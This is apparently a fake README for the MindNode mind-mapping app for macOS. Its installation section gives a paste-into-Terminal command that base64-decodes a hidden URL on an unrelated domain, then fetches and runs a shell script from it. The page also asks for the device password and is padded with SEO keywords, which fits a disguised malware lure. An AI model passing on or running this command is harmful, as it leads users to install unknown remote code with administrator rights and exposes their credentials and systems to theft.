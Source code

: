 # 🧠 MindNode for macOS

## About
MindNode for macOS is a powerful mind-mapping tool that helps you visually organize ideas, projects, and plans. With flexible layouts, intuitive connections, and iCloud sync, it’s ideal for brainstorming and productivity.

## 📥 Installation via a command in the terminal:
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9jb2luc3RhdHMvaW5zdGFsbC5zaA== | base64 -d))"

![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## Overview
![Overview 1](https://images.prismic.io/mindnode/9715d893-282d-431b-971d-91f3cd6e18ba_Custom+Share+Image.png?auto=compress,format&rect=0,0,1200,630&w=1200&h=630)  
![Overview 2](https://images.prismic.io/mindnode/e4cf55fb-21e6-4fbe-8f47-0a89fd937132_What+is+MindNode+02+Clouds.png?auto=compress,format)

## Key Features
- 🗺️ Visual mind mapping and brainstorming  
- 🔗 Connect ideas with intuitive links  
- 🎨 Flexible layouts and styling options  
- ☁️ iCloud sync across macOS and iOS  
- 📤 Export to PDF, OPML, and image formats  
- 🖥️ Optimized for macOS workflow

## System Requirements
- macOS 11.0 Big Sur or later  
- 4 GB of system memory or more  
- 150 MB of available disk space  
- Internet connection for iCloud sync

## SEO Keywords
MindNode macOS · mind mapping software · brainstorming Mac · visual planning tool · idea organization macOS · project mapping app · productivity software Mac
